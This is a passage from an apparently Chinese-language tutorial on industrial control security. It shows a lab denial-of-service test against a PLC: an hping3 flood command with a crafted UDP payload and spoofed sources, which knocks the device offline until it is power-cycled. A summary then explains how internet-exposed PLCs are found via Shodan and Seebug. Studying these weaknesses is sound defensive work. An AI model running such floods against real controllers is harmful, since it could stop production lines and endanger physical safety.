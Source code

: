 hping3 -p 11000 -2 192.168.1.181 -e 0c00478510000a0000009f0000000000 –flood –rand-source

![](https://image.3001.net/images/20200315/1584271865_5e6e11f95655a.png!small)

tcpdump 抓包查看流量：

![](https://image.3001.net/images/20200315/1584271877_5e6e1205795ca.png!small)

DDoS 攻击效果：

![](https://image.3001.net/images/20200315/1584271886_5e6e120e6972a.png!small)

可见，PLC 直接掉线，且无法恢复正常工作运行。

![](https://image.3001.net/images/20200315/1584271893_5e6e12154166e.png!small)

需断电重启后，PLC 再次正常上线运行。

![](https://image.3001.net/images/20200315/1584271900_5e6e121cbbcf9.png!small)

综上，此实验达到了 PLC DDoS 攻击的效果。

## 六、总结

PLC 原本仅仅是为自动化控制而开发，在其开发之初，其应用场景是极其封闭的，几乎不能与工业内网外的任何第三方设备有所接触，但是近几年互联网的迅猛发展，和物联网、智能硬件的出现，开始逐渐有工业 PLC 暴露在公网之中，大家可以去 seebug 和 shodan 上搜索 schneider 或者 siemens 等厂商型号来发现公网上的 plc 设备。

尽管如此，目前 PLC 的安全性是十分十分差的。首先来说，plc 的固件迭代更新缓慢，虽然厂商可能进行维护和更新，但是给工业控制网络中的正在运行的线上 plc 更新固件，代价是异常巨大的，一次关机可能就是整个工厂的停止运行。其次，目前的 plc 已经有了一些比较低级的访问控制手段，但是很少有人会主动开启，因为它会降低 plc 的运行效率和稳定性。 因此，一般来说，如果某个 plc 面向公网开放，我们可以向其加载任意代码。

除了在权限控制上的严重问题，攻击者有可能利用 plc 作为一个进入生产网络甚至公司内网的网关。

关于更多 “PLC 网络安全防护技术” 可以参考以下两篇文章：

> PLC 信息安全防护技术研究（上篇） [https://www.sohu.com/a/256459887_99909589](https://www.sohu.com/a/256459887_99909589)
>
> PLC 信息安全防护技术研究（下篇） [https://www.sohu.com/a/257654711_99909589](https://www.sohu.com/a/257654711_99909589)

## 七、参考资料

> hping3 命令帮助文档 [https://wangchujiang.com/linux-command/c/hping3.html](https://wangchujiang.com/linux-command/c/hping3.html)
>
> hping3 使用 [https://mochazz.github.io/2017/07/23/hping3/](https://mochazz.github.io/2017/07/23/hping3/)
>
> 公网开放的 plc 设备 —— 一种新型的后门 – 路人甲 [http://www.vuln.cn/6733](http://www.vuln.cn/6733)

## 八、关联阅读

> 工控安全从入门到实战——概述（一） [https://mp.weixin.qq.com/s/JoBQ-RB5ANRrf2ic8ArDpQ](https://mp.weixin.qq.com/s/JoBQ-RB5ANRrf2ic8ArDpQ)
>
> 工控安全从入门到实战——概述（二） [https://mp.weixin.qq.com/s/G7E8dslSN5S3wk3RrJL8BQ](https://mp.weixin.qq.com/s/G7E8dslSN5S3wk3RrJL8BQ)
>
> Siemens PLC 指纹提取方法汇总 [https://mp.weixin.qq.com/s/de3whqmwVtwWWZ8B6J7Zww](https://mp.weixin.qq.com/s/de3whqmwVtwWWZ8B6J7Zww)
>
> 大工 PLC PLC 远程启停攻击实验 [https://mp.weixin.qq.com/s/k9tSpQaaeJ7QKSa9cb_bWg](https://mp.weixin.qq.com/s/k9tSpQaaeJ7QKSa9cb_bWg)
>